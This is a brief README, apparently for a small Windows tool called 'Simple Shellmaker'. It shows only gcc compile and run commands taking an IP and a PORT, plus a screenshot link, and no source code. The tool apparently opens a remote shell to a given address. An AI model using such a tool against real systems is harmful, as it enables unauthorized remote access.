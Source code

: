 # Simple Shellmaker

## Usage

```bash
gcc .\shellMan2.c -o shellMan2
.\shellMan2.exe IP PORT
```

https://i.imgur.com/SS2wuUn.png
